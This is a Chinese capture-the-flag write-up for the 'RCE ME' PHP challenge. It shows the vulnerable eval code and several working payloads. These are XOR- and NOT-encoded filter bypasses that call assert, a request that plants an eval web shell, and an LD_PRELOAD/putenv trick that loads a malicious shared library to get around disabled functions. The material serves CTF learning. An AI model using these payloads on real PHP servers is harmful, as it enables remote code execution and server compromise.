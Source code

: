 ## [极客大挑战 2019]RCE ME


直接给了源码

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

题目要我们RCE，但是把数字字母都过滤了，考虑只用符号写

一个网上经典的exp

```
?code=$_="`{{{"^"?<>/";;${$_}[_](${$_}[__]);&_=assert&__=执行的命令
```

然后出题人表示这不是预期解，应该把``_`'"^?<>${}]``也过滤掉的

给出的解法是

```php
?code=(~%9E%8C%8C%9A%8D%8B)((~%91%9A%87%8B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));
//("assert")(("next")(("getallheaders")()));
```

在UA头里RCE

利用取反构造``(“assert”)()`` 

在php7里如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它

又因为PHP>7.1 时assert被定义为一种语言构造器，而不是一个函数，所以像eval一样不支持被可变函数调用

所以这段代码只能在php7.0中被利用

利用``print_f``和``scandir``fuzz一下可以看到flag在根目录下，但是无法读，还有个/readflag,可惜phpinfo里可以看到php自带的RCE函数比如system()都被禁用了。。。。

这里利用LD_PRELOAD与putenv来绕过

蚁剑连接

```
http://08eb3e97-4bf3-4dc0-b659-542c196dfd09.node3.buuoj.cn/?code=$_=%22`{{{%22^%22?%3C%3E/%22;;${$_}[_](${$_}[__]);&_=assert&__=eval($_REQUEST['eki'])
```

上传恶意.so .php文件（具体可见参考资料）

调用/readflag即可

```
http://08eb3e97-4bf3-4dc0-b659-542c196dfd09.node3.buuoj.cn/?code=$_=%22`{{{%22^%22?%3C%3E/%22;;${$_}[_](${$_}[__]);&_=assert&__=include(%27/tmp/233.php%27)&cmd=/readflag&outpath=/tmp/xx&sopath=/tmp/233.so
```

### 参考资料

深入浅出LD_PRELOAD & putenv():

[https://www.anquanke.com/post/id/175403](https://www.anquanke.com/post/id/175403)

利用的Exp:

[https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

出题人的博文：

[https://evoa.me/index.php/archives/62/](https://evoa.me/index.php/archives/62/)

phpRCE提高篇：

[https://ab-alex.github.io/2019/10/17/RCE%E6%8F%90%E9%AB%98%E7%AF%87/](https://ab-alex.github.io/2019/10/17/RCE%E6%8F%90%E9%AB%98%E7%AF%87/)